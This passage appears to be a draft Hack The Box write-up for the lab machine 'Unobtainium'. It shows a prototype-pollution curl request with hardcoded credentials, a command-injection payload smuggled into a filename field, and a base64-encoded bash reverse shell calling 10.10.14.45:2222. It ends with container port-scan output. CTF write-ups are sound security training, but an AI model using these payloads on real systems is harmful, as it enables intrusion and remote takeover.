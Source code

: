 Here we can see a library is being used `google-cloudstorage-commands` which is vulnerable to command injection

<img src="https://i.imgur.com/y073omY.png"/>

https://snyk.io/test/npm/google-cloudstorage-commands/0.0.1

Also we can upload files through a POST request `/upload`

<img src="https://i.imgur.com/pRIxd6e.png"/>

So to get a reverse shell we need to first `echo` the base64 encoded bash reverse shell , pipe that to decode it and run it by piping it to bash 

<img src="https://i.imgur.com/HBxV5Pw.png"/>


<img src="https://i.imgur.com/SYVfQwp.png"/>

```
curl -X PUT -H 'Content-Type: application/json' http://unobtainium.htb:31337/ --data '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__":{"canUpload":true}}}'

```

Insert porotype pollution explaination , report and screenshot


bash -i >& /dev/tcp/10.10.14.45/2222 0>&1

```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"& echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS8yMjIyIDA+JjE=' |base64 -d|bash"}' \
  http://unobtainium.htb:31337/upload
```

<img src="https://i.imgur.com/3snh1Mo.png"/>

Now to enumerate docker containers , we need to see if it's in a network of containers since we saw that kubernetes is being used. To check if there are other containers we can do a nmap scan , since the container doens't have one we can use static nmap binary and host it on our machine and download it through `wget` as it's avaiable on docker container. Prior to this I did try pining other hosts and it turns out there 10 hosts , from 172.17.0.1 to 172.17.0.10.

<img src="https://i.imgur.com/1vnNDEx.png"/>

I used the static nmap binary to do all port scan for 10 hosts .


## 172.17.0.1

```
Host is up (0.000022s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
8443/tcp  open  unknown
10250/tcp open  unknown
10256/tcp open  unknown
31337/tcp open  unknown

```
